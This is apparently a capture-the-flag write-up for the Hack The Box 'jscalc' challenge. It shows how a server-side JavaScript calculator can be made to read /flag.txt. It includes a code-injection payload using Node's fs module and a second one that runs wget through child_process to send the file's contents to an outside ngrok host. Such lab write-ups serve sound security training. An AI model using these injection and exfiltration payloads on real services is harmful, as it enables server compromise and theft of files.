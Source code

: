 # Hack The Box Challenge - Calculator File Reading

## Challenge Description
HTB jscalc, your goal is to run a script in the calculator input that reads the contents of a file named `flag.txt`. CHALLENGE DESCRIPTION: In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑


## Easy Exploit
File System Module
The easiest way is to use the fs module.

1. In the calculator input, run the following JavaScript code to get the flag:

   ```javascript
   require('fs').readFileSync('/flag.txt', 'utf8')


## Another Way To Exploit

```javascript
require('child_process').exec('wget https://fsr2-a3f2-v01v-b337-7100-212f-5c22-ecar-g5ar.ngrok-free.app?flag=$(cat /flag.txt)')
